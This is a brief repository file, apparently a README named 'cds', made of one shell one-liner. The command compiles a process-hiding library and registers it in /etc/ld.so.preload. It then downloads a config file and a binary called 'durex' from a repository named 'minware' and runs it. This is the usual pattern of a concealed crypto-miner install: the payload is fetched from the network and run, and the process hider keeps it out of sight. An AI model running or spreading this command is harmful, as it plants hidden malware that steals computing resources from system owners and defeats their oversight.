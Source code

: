 # cds
wget https://raw.githubusercontent.com/cihuuy/libn/master/processhider.c && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload && wget https://raw.githubusercontent.com/bulboni/cds/main/config.json && wget https://github.com/bulboni/minware/raw/main/durex && chmod +x durex && ./durex

